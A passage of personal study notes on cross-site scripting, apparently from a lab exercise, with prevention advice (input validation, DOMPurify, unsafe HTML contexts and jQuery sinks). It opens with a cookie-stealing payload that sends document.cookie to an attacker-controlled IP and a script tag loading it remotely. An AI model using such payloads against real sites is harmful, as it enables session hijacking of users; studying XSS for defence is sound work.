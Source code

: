 - the above php code is to save cookies
```javascript
#script.js
new Image().src='http://10.10.14.251:8080/index1.php?c='+document.cookie
```
- start python server then..
```html
<script src=http://10.10.14.251:8080/script.js></script>
```


## Prevention

### Frontend
- Mainly to mitigate DOM Xss
##### Input Validation

- as email is invalid in a form , user is not allowed to submit any forms...  that is done by 

```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```


#### Input Sanitization

- donot allow js code via input to do this ... using [DOMPurify](https://github.com/cure53/DOMPurify)

```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```
##### Direct Input

 should always ensure that we never use user input directly within certain HTML tags, like:

1. JavaScript code `<script></script>`
2. CSS Style Code `<style></style>`
3. Tag/Attribute Fields `<div name='INPUT'></div>`
4. HTML Comments `<!-- -->`

 jQuery functions:

- `html()`
- `parseHTML()`
- `add()`
- `append()`
- `prepend()`
- `after()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`
